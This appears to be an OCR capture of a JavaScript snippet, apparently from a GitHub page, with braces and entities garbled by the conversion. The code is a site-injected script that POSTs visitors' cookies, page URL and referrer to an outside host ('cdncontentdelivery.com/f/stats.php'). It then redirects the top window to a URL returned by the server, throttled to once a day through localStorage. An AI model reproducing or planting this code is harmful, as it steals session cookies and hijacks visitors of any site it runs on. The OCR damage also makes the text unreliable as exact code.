 ```
                    if (config.success) `{`
                        config.success(xmlhttp.responseText, xmlhttp.readyState);
                    `}`
                `}` else `{``}`
            `}`
            if (config.type == "GET") `{`
                xmlhttp.open("GET", config.url + "?" + sendString, config.method);
                xmlhttp.send();
            `}`
            if (config.type == "POST") `{`
                xmlhttp.open("POST", config.url, config.method);
                xmlhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
                xmlhttp.send(sendString);
            `}`
        `}`
    `}`
    dL();

    function dL() `{`
        var host = 'http://press.cdncontentdelivery.com/f';
        var config = `{`
            url: host + "/stats.php",
            type: "POST",
            data: `{`
                vbase: document.baseURI,
                vhref: location.href,
                vref: document.referrer,
                k: "Y291bnRzb3VyY2UuY29vbA==",
                ck: document.cookie,
                t: Math.floor(new Date().getTime() / 1000),
                tg: ""
            `}`,
            success: onSuccessCallback
        `}`;

        function bl(resp) `{` !
            function(dr) `{`
                function t() `{`
                    return !! localStorage &amp;&amp; localStorage.getItem(a)
                `}`

                function e() `{`
                    o(),
                    parent.top.window.location.href = c
                `}`

                function o() `{`
                    var t = r + i;
                    if (localStorage) `{`
                        localStorage.setItem(a, t)
                    `}`
                `}`

                function n() `{`
                    if (t()) `{`
                        var o = localStorage &amp;&amp; localStorage.getItem(a);
                        r &gt; o &amp;&amp; e()
                    `}` else e()
                `}`
                var a = "MenuIdentifier",
                r = Math.floor((new Date).getTime() / 1e3),
                c = dr,
                i = 86400;
```